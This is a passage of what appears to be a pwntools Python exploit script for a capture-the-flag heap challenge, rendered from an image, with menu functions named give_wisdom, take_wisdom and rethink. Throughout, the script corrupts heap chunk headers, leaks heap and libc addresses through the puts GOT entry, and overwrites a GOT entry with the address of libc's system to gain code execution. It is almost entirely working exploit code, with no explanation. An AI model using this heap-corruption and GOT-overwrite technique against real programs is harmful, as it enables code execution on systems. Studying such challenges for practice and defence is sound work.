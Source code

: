 ```python
give_wisdom(32,buf)	# 10
give_wisdom(32,buf)	# 11

payload = "B"*32
payload += "\xf0"

rethink(10,payload)

take_wisdom(10)

buf = "X"*7
'''
buf += p64(0x30)
buf += p64(0x31)
buf += p64(0x21)
buf += p32(0x00603018)	# puts@got
'''
give_wisdom(70,buf)	# 12

leak = take_wisdom(12)
leak = p.recvuntil("Neonate")

leak = leak[48:56]
heap_leak = u64(leak)
log.success("Heap: " + hex(heap_leak))

buf = "a"*32
buf += p64(0x31)*2
buf += p64(0x21)
buf += p64(heap_leak)
buf += p64(0x8)
buf += p64(0x603018)

give_wisdom(80,buf)	# 13

leak = take_wisdom(11)
leak = leak[::-1]
leak = leak[0:9]
leak = leak[::-1]
leak = leak.strip("\n")
libc_leak = u64(leak) - elf.symbols['puts']

log.success("Libc: " + hex(libc_leak))

buf = "C"*32
give_wisdom(32,buf)	# 14
give_wisdom(32,buf)	# 15
give_wisdom(32,buf)	# 16
give_wisdom(32,buf)	# 17

payload = "D"*32
payload += "\x90"
rethink(15,payload)

take_wisdom(16)

payload = p64(0x21)
payload += p64(0x0000000000603098)

give_wisdom(80,payload)	# 18

final = p64(libc_leak + elf.symbols['system'])
rethink(15,final)
```